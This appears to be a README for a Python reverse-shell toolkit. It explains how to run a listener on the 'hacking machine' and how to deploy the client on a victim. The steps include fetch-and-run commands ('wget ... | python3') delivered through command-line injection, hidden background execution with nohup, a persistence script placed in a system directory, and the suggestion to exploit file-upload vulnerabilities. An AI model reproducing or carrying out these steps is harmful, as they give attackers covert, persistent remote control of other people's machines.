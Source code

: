 # Usage

## On Hacking machine
`python3 rs_server.py`
^ edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment \[PREFERRED\]
(works with cmd line injection)

- \[SERVER\] Host rs_client.py somehere
-- One option is to start a python web server on the rs_server
-- `python3 -m http.server 8080`   
- \[CLIENT]\ Download + Execute from client machine
-- `wget -O - <host:port/rs_client.py> | python3`
- \[SERVER\] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
-- Follow these steps once server is connected to client.
-- Navigate to specific dir or Make a hidden dir
--- `cd /usr/bin/local`  
-- Download from your rs_server
--- `wget <host:port/infiniteShell.py>`
-- Run in background witn nohup  
--- `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment \[ALT]\
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

